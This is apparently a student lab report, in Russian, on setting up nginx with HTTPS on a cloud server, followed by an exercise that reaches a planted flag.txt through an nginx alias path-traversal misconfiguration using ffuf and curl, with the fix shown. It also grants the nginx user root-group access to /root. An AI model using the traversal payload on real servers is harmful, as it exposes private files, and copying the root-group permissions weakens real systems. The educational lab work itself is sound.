








# First Lab
## Инструменты
* Nginx - поднимем сервер по тз
* vscale - поднимем там сервер
* Termius - работа с облачным сервером

# Начало работы
Сначала я долго пытался поднять сайты у себя локально, используя docker-compose и wsl. Но я всегда упирался в одну проблему. Получалось поднять странички, но браузер на винде не видел их, лишь один раз получилось зайти на первый сайт.

Так и не поняв, в чём заключалась проблема совместимости проектов, запущенных в контейнерах, и браузерами, я решил первый раз арендовать облачный сервер.

---
Напишем `nginx.conf`
```python

user www-data;
pid /run/nginx.pid;
worker_processes auto;

events {
    worker_connections 768;
}

http {
    server {
        listen 80;
        server_name 89.223.30.145;
        return 301 https://$host$request_uri;
    }

    server {
        listen 80;
        server_name 31.129.59.106;
        return 301 https://$host$request_uri;
    }

       server {
        listen 443 ssl;
        server_name 89.223.30.145;

        ssl_certificate /root/lab1/certs/firstlab1.com.crt;
        ssl_certificate_key /root/lab1/certs/firstlab1.com.key;

        location / {
            alias /root/lab1/first/;
        }
    }

    server {
        listen 443 ssl;
        server_name 31.129.59.106;

        ssl_certificate /root/lab1/certs/secondlab2.com.crt;
        ssl_certificate_key /root/lab1/certs/secondlab2.com.key;

        location / {
            # proxy_pass https://89.223.30.145;
            alias /root/lab1/second/;
        }
    }   
}
```
Сейчас в виде проектов есть два `hmtl` файла, но если будет необходимость переадресации, то можно расскомитить строки с `proxy_pass`. Например в моём случае, если их расскомитить, то сайт будет перенаправлять пользователя со второй страницы на первую.

Также сгенерируем самоподписные сертификаты с помощью - 
```cmd
sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout /etc/ssl/private/SERT_NAME.key -out /etc/ssl/certs/SERT_NAME.crt
```
Установим Nginx на сервер с помощью - 
```cmd
sudo apt update && apt upgrade -y && apt install nginx
```
Закинем наш `nginx.conf` вместо дефолтного в `/etc/nginx/`

Убедимся, что у `nginx user`'a есть доступ к файлам проектов (это место, где изначально у меня возникала ошибка `403`) - 
```cmd
gpasswd -a www-data root

chmod g+x /root && chmod g+x /root/lab1/ && chmod g+x /root/lab1/first
```

И перезапустим `nginx` - 
```cmd
nginx -s reload
```

## Всё должно заработать!



---
Ps

Да, если получить домены или прописать их в хосте, или запустить сайт на виртуалке, то можно было бы обращаться на один ip адрес и определять нужный проект по полю `server_name`

Я решил использовать именно удаленный облачный сервер, т.к. ни разу ещё им не пользовался. Это был новый опыт для меня

# ⭐

Я положил файлик `flag.txt` на сервер в `/var/www/project1.local/` чтобы хотя бы было что искать :)




## 1 Path Traversal
Перебрать вручную пути не вышло (



Пробуем FFUF

## 2 FFUF
С этим инструментом похожая история

Установим его
```sh
sudo apt install ffuf
```

Скачал несколько словарей и по-разному позапускал
```sh
ffuf -w ./wordlists/common.txt -u https://project1.local/FFUZ
```


Он нашёл только директорию `media` и файл `index.html`


## 3) Alias

Пробуем уязвимость через `alias`. Она возможна в случае если в строке `location` не добавить в конце пути `/` и `alias` находится внутри `location` и заканчивается `/`



Пробуем и (вот так удача!) получается попасть на файл Cat двумя способами - 
```sh
curl -kL project1.local/media/Cat -I
```
и
```sh
curl -kL project1.local/mediaCat -I
```

>Параметры k и L отвечают за возможность использования самоподписных сертификатов и отслеживание переадресации соответственно


Пробуем добраться до `flag.txt`
```sh
curl -kL project1.local/media../flag.txt
```

И получаем:



Теперь если добавить в словарь для `FFUF` - `flag.txt`, он сможет найти и его:



В конечном итоге, зная название файла или используя правильный словарь для перебора названий, получилось добраться до файла до которого изначально не должно быть доступа.

А чинится это всё достаточно просто:
```yml
location /media/ {
        alias /var/www/project1.local/media/;
    }
```
Всё чинится `/` в инструкции `location`

Теперь тот же FUZZ не нашёл ничего:


Победа)

# Заключение
До этой лабы я не работал c `nginx`, мне было интересно сразу научиться испльзовать его в бою. Также полезным опыт для меня стала попытка запустить `nginx` в докере, думаю, если бы я добавил адреса сайтов в лабе в хост, то смог бы зайти на них. Выполнив задание со звездочкой я по факту реализовал двойной проект для себя - развернул проекты на облачном сервере и на локальной машине, полностью используя `alias` и `server_name`, что позволило держать оба проекта на одном `ip`. Эта лаба оказалась для меня очень полезна.